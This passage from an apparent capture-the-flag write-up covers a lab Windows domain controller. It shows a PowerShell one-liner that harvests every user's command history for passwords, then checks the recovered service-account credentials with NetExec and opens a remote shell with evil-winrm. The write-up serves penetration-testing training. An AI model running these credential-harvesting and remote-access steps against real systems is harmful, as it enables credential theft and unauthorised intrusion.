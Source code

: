 Enumerating the PowerShell history logs led us to discover Svc_deploy’s clear-text password

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString '<REDACTED>' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```

NetExec confirms that the credentials are valid. We are on the right track.

```bash
netexec smb 10.129.227.113 -u "svc_deploy" -p '<REDACTED>' --shares
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\svc_deploy:<REDACTED> 
SMB         10.129.227.113  445    DC01             [*] Enumerated shares
SMB         10.129.227.113  445    DC01             Share           Permissions     Remark
SMB         10.129.227.113  445    DC01             -----           -----------     ------
SMB         10.129.227.113  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.227.113  445    DC01             C$                              Default share
SMB         10.129.227.113  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.227.113  445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.227.113  445    DC01             Shares          READ            
SMB         10.129.227.113  445    DC01             SYSVOL          READ            Logon server share
```

This user is also granted with PS Remote access. 

```
evil-winrm --ssl -u svc_deploy -p '<REDACTED>' -i 10.129.227.113

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> hostname
dc01
```

# PrivEsc

Let’s collect information about the domain with [bloodhound-python](https://github.com/dirkjanm/BloodHound.py).
